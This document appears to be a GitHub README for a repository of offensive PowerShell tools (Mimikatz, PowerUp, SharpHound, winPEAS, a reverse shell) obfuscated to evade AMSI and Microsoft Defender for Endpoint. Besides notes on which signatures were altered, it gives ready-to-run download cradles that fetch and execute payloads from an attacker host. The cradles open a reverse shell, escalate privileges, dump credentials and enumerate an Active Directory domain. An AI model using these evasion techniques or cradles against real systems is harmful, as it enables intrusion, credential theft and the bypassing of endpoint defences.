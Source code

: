 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## bypasses

These are all just for MDE. Anything serious and you're on your own

- `Invoke-Mimimkatz` **[NOT WORKING YET]**
    - The source VS solution had to be edited manually as the reflective assembly blob is signatured pretty hard. After compiling you can use that update script online (google it) and update the blob.
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - No changes.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (wow. terrible signature.)

## to-be-added

- `SessionHunter`
- `PowerView`
- `Rubeus`

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will instantly get caught

- Reverse Shell
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- Load `InvisiShell`
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- Privilege Escalation
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- Dump Creds
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- Domain Abuse

**SHARPHOUND TOUCHES DISK OBVIOUSLY**

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```
